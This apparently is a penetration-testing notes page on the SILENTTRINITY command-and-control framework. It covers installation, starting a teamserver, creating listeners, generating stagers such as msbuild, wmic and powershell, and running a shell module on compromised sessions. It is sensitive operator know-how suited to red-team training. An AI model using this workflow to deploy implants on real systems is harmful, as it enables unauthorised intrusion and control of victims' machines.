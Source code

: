 # ⭕ Silent Trinity

## <mark style="color:red;">Intro</mark>

> SILENTTRINITY is a modern, asynchronous, multiplayer & multiserver C2/post-exploitation framework. It's the culmination of an extensive amount of research into using embedded third-party .NET scripting languages to dynamically call .NET API's, a technique the author coined as BYOI (Bring Your Own Interpreter). The aim of this tool and the BYOI concept is to shift the paradigm back to PowerShell style like attacks (as it offers much more flexibility over traditional C# tradecraft) only without using PowerShell in anyway.

#### Using it is pretty much like powershell empire.

{% embed url="https://github.com/byt3bl33d3r/SILENTTRINITY" %}

{% embed url="https://github.com/byt3bl33d3r/SILENTTRINITY/wiki" %}

#### Some of the main features that distinguish SILENTTRINITY are:

* **Multi-User & Multi-Server** - Supports multi-user collaboration. Additionally, the client can connect to and control multiple Teamservers.
* **Client and Teamserver Built in Python 3.7** - Latest and greatest features of the Python language are used, heavy use of Asyncio provides ludicrous speeds.
* **Real-time Updates and Communication** - Use of Websockets allow for real-time communication and updates between the Client and Teamserver.
* **Focus on Usability with an Extremely Modern CLI** - Powered by [prompt-toolkit](https://github.com/prompt-toolkit/python-prompt-toolkit).
* **Dynamic Evaluation/Compilation Using .NET Scripting Languages** - The SILENTTRINITY implant [Naga](https://github.com/byt3bl33d3r/Naga), is somewhat unique as it uses embedded third-party .NET scripting languages (e.g. [Boolang](https://github.com/boo-lang/boo)) to dynamically compile/evaluate tasks, this removes the need to compile tasks server side, allows for real-time editing of modules, provides greater flexibilty and stealth over traditional C# based payloads and makes everything much more light-weight.
* **ECDHE Encrypted C2 Communication** - SILENTTRINITY uses Ephemeral Elliptic Curve Diffie-Hellman Key Exchange to encrypt all C2 traffic between the Teamserver and its implant.
* **Fully Modular** - Listeners, Modules, Stagers and C2 Channels are fully modular allowing operators to easily build their own.
* **Extensive logging** - Every action is logged to a file.
* **Future proof** - HTTPS/HTTP listeners are built on [Quart](https://gitlab.com/pgjones/quart) & [Hypercorn](https://gitlab.com/pgjones/hypercorn) which also support HTTP2 & Websockets.

## <mark style="color:red;">Installation</mark>

#### native install:

```
git clone https://github.com/byt3bl33d3r/SILENTTRINITY
cd SILENTTRINITY
python3 -m pip install -r requirements.txt
python3 st.py -h
```

#### using pipenv:

```
git clone https://github.com/byt3bl33d3r/SILENTTRINITY
pip3 install --user pipenv && pipenv install && pipenv shell
python3 st.py -h
```

#### Install required python modules (optional):

```
sudo pip3 install netifaces && sudo pip3 install docopt && sudo pip3 install defusedxml && sudo pip3 install websockets && sudo pip3 install aiosqlite && sudo pip3 install termcolor
```

### <mark style="color:orange;">Server</mark>

#### Start the application, use the IP of the server in which the client should connect, and a password:

```
python3 st.py teamserver 192.168.0.19 Pass
```

{% hint style="info" %}
It is important to note the Teamserver certificate, and compare it with the one the client gets. At this point in time we are waiting for a valid request to come in from a valid client.
{% endhint %}

#### Run netstat to verify the server is listening on the specified port, in this case we are using the default 5000

```
ss -ant | grep 5000
```

### <mark style="color:orange;">Client</mark>

#### Run the application as client

```
python3 st.py client
```

#### connect to server:

```
teamserver
connect wss://user1:Pass@192.168.0.19:5000
```

## <mark style="color:red;">Basic Usage</mark>

### <mark style="color:orange;">Listeners</mark>

#### go to listeners menu:

```
listeners
```

#### silent trinity has 3 types of listeners:

* wmi
* http
* https

#### choose and start a listener:

```
ST (listeners) ≫ use https
ST (listeners)(https) ≫ set Name test-listener
ST (listeners)(http) ≫ set BindIP 127.0.0.1
ST (listeners)(http) ≫ set Port 8888
ST (listeners)(http) ≫ start
```

### <mark style="color:orange;">Stagers</mark>

#### go to stagers tab:

```
stagers
list
```

#### silent trinity has the following stagers:

* msbuild (XML inline C# task)
* exe
* csharp
* wmic (XSL execution)
* dll
* powershell script

#### choose a stager :

```
ST (stagers) ≫ use powershell
ST (stagers)(powershell) ≫ generate test-listener
```

### <mark style="color:orange;">Post-exploitation</mark>

#### list sessions:

```
ST (stagers)(powershell) ≫ sessions
ST (sessions) ≫list
```

#### select a post-exploitation module to use:

```
ST (sessions) ≫ modules
ST (modules) ≫ list
```

example:

```
 ST (modules) ≫ use boo/shell
  ST (modules)(boo/shell) ≫ options
  ST (modules)(boo/shell) ≫ set command whoami 
   run [session ID]
```

## <mark style="color:red;">In-Depth Usage</mark>&#x20;

{% embed url="https://www.youtube.com/watch?v=0_b3A1SOyVw" %}
